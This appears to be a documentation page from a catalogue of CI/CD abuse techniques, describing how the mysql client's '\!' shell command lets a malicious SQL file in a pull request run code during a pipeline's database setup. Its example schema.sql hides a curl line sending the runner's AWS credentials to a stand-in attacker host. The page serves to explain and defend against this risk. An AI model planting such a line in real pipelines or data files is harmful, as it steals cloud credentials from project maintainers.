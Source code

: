 ```yaml
---
layout: tool
title: mysql
parent: Living Off The Pipeline
nav_order: 29
---
```


## Living Off The Pipeline - mysql

The `mysql` command-line client is a utility for interacting with MySQL databases. It can be abused as a "Living Off The Pipeline" (LOTP) tool because the SQL scripts it executes can contain commands that run arbitrary shell code.

### First-Order LOTP Tool

The `mysql` client is a **First-Order LOTP Tool**. It provides direct Remote Code Execution (RCE) by processing a malicious SQL script file.

#### Malicious Primitive: Remote Code Execution (RCE)

The `mysql` client has a `system` command (aliased as `\!`) that executes a specified command using the system's default shell. This feature is intended for interactive use, but it becomes a powerful RCE vector when the client is used to run a script in an automated CI/CD pipeline.

An attacker can embed a `system` or `\!` command within a `.sql` file in their pull request. When a pipeline executes this script (e.g., to set up a test database), the `mysql` client will execute the attacker's payload.

### Second-Order LOTP Attack Chain

1.  **Attacker's PR:** An attacker submits a pull request with a malicious SQL script file.
    ```sql
    -- schema.sql
    -- Legitimate database setup commands
    CREATE DATABASE IF NOT EXISTS test_db;
    USE test_db;
    CREATE TABLE users (id INT, name VARCHAR(255));

    -- Malicious payload
    \! curl --data-binary @$HOME/.aws/credentials http://attacker.com/

    -- More legitimate commands
    INSERT INTO users (id, name) VALUES (1, 'testuser');
    ```

2.  **Vulnerable Workflow:** The pipeline contains a standard command to initialize a database from a schema file.
    ```yaml
    - name: Initialize test database
      run: mysql -u root -p$MYSQL_ROOT_PASSWORD < schema.sql
    ```

3.  **Execution:**
    *   The `mysql` client is executed, and its standard input is redirected from the attacker's `schema.sql` file.
    *   The client executes the SQL commands one by one.
    *   When it encounters the `\! curl...` line, it executes the `curl` command in the system shell.
    *   The attacker's payload runs, exfiltrating sensitive credentials from the CI runner.

This attack is dangerous because the CI/CD workflow file contains a benign and common command. The malicious payload is hidden within a data file that is being piped into the tool.

### References

*   [MySQL Client Commands: `system`](https://dev.mysql.com/doc/refman/8.0/en/mysql-commands.html)
